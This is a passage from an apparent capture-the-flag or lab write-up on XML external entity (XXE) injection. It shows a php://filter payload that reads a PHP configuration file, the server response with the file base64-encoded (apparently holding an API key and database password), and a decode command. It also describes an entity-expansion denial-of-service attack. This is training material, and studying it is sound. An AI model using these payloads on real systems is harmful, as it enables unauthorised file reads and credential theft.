 ```xml
</root>
```

This payload defines the `a0` entity as `DOS`, references it in `a1` multiple times, references `a1` in `a2`, and so on until the back-end server's memory runs out due to the self-reference loops. However, `this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference`. Try it against this exercise, and see if it works.

# Question
---
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217175259.png)

We can do the following payload:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
```

It will output this:

```http
HTTP/1.1 200 OK

Date: Mon, 17 Feb 2025 22:59:25 GMT

Server: Apache/2.4.41 (Ubuntu)

Vary: Accept-Encoding

Content-Length: 344

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



Check your email PD9waHAKCiRhcGlfa2V5ID0gIlVUTTFOak0wTW1SekoyZG1jVEl6TkQwd01YSm5aWGRtYzJSbUNnIjsKCnRyeSB7CgkkY29ubiA9IHBnX2Nvbm5lY3QoImhvc3Q9bG9jYWxob3N0IHBvcnQ9NTQzMiBkYm5hbWU9dXNlcnMgdXNlcj1wb3N0Z3JlcyBwYXNzd29yZD1pVWVyXnZkKGUxUGw5Iik7Cn0KCmNhdGNoICggZXhjZXB0aW9uICRlICkgewogCWVjaG8gJGUtPmdldE1lc3NhZ2UoKTsKfQoKPz4K for further instructions.

```

Now, we can decode the base64:

```bash
echo 'PD9waHAKCiRhcGlfa2V5ID0gIlVUTTFOak0wTW1SekoyZG1jVEl6TkQwd01YSm5aWGRtYzJSbUNnIjsKCnRyeSB7CgkkY29ubiA9IHBnX2Nvbm5lY3QoImhvc3Q9bG9jYWxob3N0IHBvcnQ9NTQzMiBkYm5hbWU9dXNlcnMgdXNlcj1wb3N0Z3JlcyBwYXNzd29yZD1pVWVyXnZkKGUxUGw5Iik7Cn0KCmNhdGNoICggZXhjZXB0aW9uICRlICkgewogCWVjaG8gJGUtPmdldE1lc3NhZ2UoKTsKfQoKPz4K' | base64 -d
```
